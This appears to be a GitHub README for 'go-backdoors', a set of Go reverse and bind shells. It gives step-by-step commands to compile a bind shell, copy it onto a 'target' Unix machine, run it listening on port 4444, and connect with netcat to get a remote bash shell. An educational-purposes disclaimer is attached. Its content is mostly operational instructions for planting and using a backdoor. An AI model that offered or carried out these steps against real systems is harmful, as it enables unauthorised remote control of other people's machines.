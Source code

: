 # go-backdoors

Simple reverse and bind shells written in Go. In order to use these backdoors, you will need to have Go installed on your machine. 

## Bind Shell

To use this bind shell, first compile it by running:

```bash
go build bindshell.go
```

This will create an executable file called `bindshell`. Copy this file onto the target unix machine, and give it the necessary permissions:

```bash
chmod +x ./bindshell
```

Finally, run it from whatever directory it is placed in with:

```bash
./bindshell
```

This will start the bind shell listening on port 4444. To connect to it, I recommend using **Netcat**:

```bash
nc <target-ip> 4444
```

Once you have completed this, you should be presented with a basic bash shell!

*Note: This project is for educational purposes only. I do not expect it to be perfect, but if you do have any questions about it please feel free to ask. You can reach me through github (I think?) or just send me an email at nineofpine@protonmail.com*
